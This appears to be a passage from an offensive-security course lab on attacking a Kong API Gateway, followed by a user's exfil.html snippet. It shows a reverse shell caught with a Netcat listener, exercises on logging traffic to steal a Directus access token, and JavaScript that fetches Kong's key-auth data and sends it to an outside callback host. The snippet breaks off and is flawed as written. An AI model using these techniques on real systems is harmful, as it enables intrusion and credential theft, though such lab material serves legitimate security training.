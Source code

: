 It seems like our payload worked. We will need to set up a Netcat listener and then trigger our Lua payload by accessing the new service endpoint.

kali@kali:~$ curl -i  http://apigateway:8000/supersecret
Listing 65 - Sending a request to the endpoint configured with our reverse shell plugin

The request will hang, but if we check our Netcat listener, we should have a shell.

kali@kali:~$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.135] 41764

whoami
kong

ls -al
total 72
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 .
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 ..
-rwxr-xr-x    1 root     root             0 Feb 19 20:49 .dockerenv
drwxr-xr-x    1 root     root          4096 Dec 17 14:57 bin
drwxr-xr-x    5 root     root           340 Feb 25 14:38 dev
-rwxrwxr-x    1 root     root          1236 Dec 17 14:57 docker-entrypoint.sh
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 etc
drwxr-xr-x    1 root     root          4096 Dec 17 14:57 home
...
Listing 66 - Reverse shell from the Kong API Gateway server

Our payload worked and we now have a reverse shell on the Kong API Gateway server. The presence of .dockerenv and docker-entrypoint.sh confirm our earlier suspicion that the servers were actually containers.

Exercise
Finish the JavaScript payload and get your shell.

Extra Mile
The current reverse shell isn't fully interactive and can cause the gateway to hang. Upgrade to a fully interactive shell.

With the other plugins available in Kong API Gateway, find a way to log all traffic passing through the gateway. Inspect the traffic for any sensitive data. You should only need five to ten minutes worth of logging. The logging plugin can be disabled by sending a GET request to /plugins to get the plugin's id, then sending a DELETE request to /plugins/{id}. Review the authentication documentation for Directus2 and use the logged data to gain access to a valid access token for Directus.

1
(Kong Inc, 2021), https://docs.konghq.com/hub/kong-inc/serverless-functions/ ↩︎

2
(Monospace Inc, 2020), https://docs.directus.io ↩︎



Take a look at:

I tried:

```
exfil.html:

<html>
<head>
<script>
function exfiltrate() {
    fetch("http://172.16.16.2:8001/key-auths")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://192.168.45.204/callback?" + document.getElementById('key'));
    }).catch(err => {
        fetch("http://192.168.45.204/error?" + encodeURIComponent(err));
    });
```
